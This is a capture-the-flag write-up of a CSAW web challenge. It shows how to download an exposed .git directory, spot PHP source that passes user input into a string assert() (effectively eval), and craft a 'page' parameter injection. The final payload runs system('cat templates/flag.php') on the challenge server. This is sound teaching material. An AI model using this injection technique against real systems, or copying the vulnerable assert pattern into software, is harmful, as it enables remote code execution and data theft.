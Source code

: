 The webmaster used Git.
A reasonable guess will lead one to discover that the http://web.chal.csaw.io:8000/.git/ directory exists.
Use `wget -r` (or some similar tool) to download the git directory and look through the files.
Looking through the source can give us a hint of how to break this site.

Git commit message is "I love PHP's typesafety!"
Funny you should mention that...

We see a suspicious assert:

```php
if (isset($_GET['page'])) {
       $page = $_GET['page'];
} else {
       $page = "home";
}

$file = "templates/" . $page . ".php";

// I heard '..' is dangerous!
assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");

// TODO: Make this look nice
assert("file_exists('$file')") or die("That file doesn't exist!");
```

Hey, that's a string being passed to assert.
What's that do now?

http://php.net/manual/en/function.assert.php

"If the assertion is given as a string it will be evaluated as PHP code by assert()".
Thanks PHP.

You know what happens when you let user input get `eval`ed.

    http://web.chal.csaw.io:8000/?page=','') or die("HI") or f('

Step by step now, this makes `$file` take on the value:

```php
$file = "templates/','') or die("HI") or f('.php"
```

And that makes the first  `assert` line do the following:

```php
assert("strpos('templates/','') or die("HI") or f('.php', '..') === false") or die("Detected hacking attempt!");
//                        ^^^^^^^^^^^^^^^^^^^^^^^^^ our "page"
```

Great, now the page says back "HI" to us.
Never mind the fact that the `f` function doesn't exist; execution never reaches that point.

This means we can substitute any string for "HI" and it will get evaluated then shown to us.

We can use `fopen` and `fread`, but I feel more comfortable with `system`, so we'll just use that.

The winning URL (view source on the target page to see it):

    http://web.chal.csaw.io:8000/?page=','') or die(system("cat templates/flag.php")) or f('

Thank you for playing.
